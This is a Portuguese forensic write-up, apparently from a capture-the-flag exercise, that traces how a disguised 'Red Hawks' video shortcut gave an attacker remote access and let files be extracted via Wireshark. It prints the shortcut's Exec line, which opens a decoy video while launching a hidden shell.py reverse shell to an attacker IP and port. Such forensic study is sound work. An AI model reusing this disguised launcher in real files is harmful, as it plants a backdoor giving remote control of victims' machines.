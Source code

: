 ### 🔍 Descoberta de malware

Inspecionando o ficheiro `red-hawks.desktop`, que é visível pelo título de `Red Hawks`, percebemos que a instrução `Exec` faz três coisas. Abre o vídeo, instala a ferramenta `pycrypto` e executa o script `shell.py` com dois parametros, um ip e um porto, que pelos vistos são o ip e porto da abby (Chapman13).
```
Exec=sh -e -c "xdg-open /home/$(whoami)/Downloads/red-hawks-video/.video/video.mp4; 
pip install pycrypto; 
python3.6 /home/$(whoami)/Downloads/red-hawks-video/.malware/shell.py 192.168.122.93 1337"
```
O malware executado no computador do presidente, têm como objetivo dar acesso a Abby ao computador remoto do presidente.
Acreditamos que foi deste modo que Abby teve acesso aos documentos confidenciais que incriminam Levy Fran Velluci. 

Sabendo da ligação remota de Abby ao computador de Levy Fran Velucci, filtrámos o tráfego http no wireshark pelos ips das máquinas de ambos:
```
ip.addr eq 192.168.122.113 && ip.addr eq 192.168.122.93 && http
```
Desta análise, observamos pedidos GET e POST entre máquinas. Verificámos 17 respostas a GET requests do endereço de ip da Abby 192.168.122.93 para o endereço de ip do presidente 192.168.122.113 e 16 POST requests do endereço de ip do presidente para o endereço de ip da Abby, dos quais são enviados 5 ficheiros e 11 comandos encriptados com a ajuda do script malware `shell.py`.
Estes 5 ficheiros devem provar a autenticidade dos 5 ficheiros confidenciais descobertos anteriormente na pen drive que incriminam o presidente. 
Os 11 comandos provavelmente são bash outputs de comandos bash executados no computador do presidente. 
Os 17 pacotes, são respostas a GET requests, que acreditamos corresponderem aos comandos bash enviados por Abby para serem executados no terminal do computador do presidente. 

### 🔍 Extração dos ficheiros encriptados

Os 5 ficheiros encontram-se nos pacotes:

• 140670 • 140807 • 140979 • 141113 • 142061

Os 11 comandos encontram-se nos pacotes:

• 140409 • 140438 • 140464 • 140489 • 140518 • 140546 • 140576 • 140840 • 141006 • 141035 • 141160
	
As 17 respostas de GET requests encontram-se nos pacotes:

• 140401 • 140426 • 140452 • 140480 • 140508 • 140537 • 140568 • 140600 • 140709 • 140832 • 140872 • 140997 • 141026 • 141058 • 141151 • 141180 • 142047

O conteúdo dos pacotes é armazenado em ficheiros com o seguinte formato: 

- Se o conteúdo do pacote for um comando:
  numeroPacote-xec, por exemplo 140401-exec

- Se o conteúdo do pacote for o output de um comando:
  numeroPacote-cmd, por exemplo 140409-cmd
	
- Se o conteúdo do pacote for um ficheiro (pdf):
  numeroPacote-file, por exemplo 140670-file
  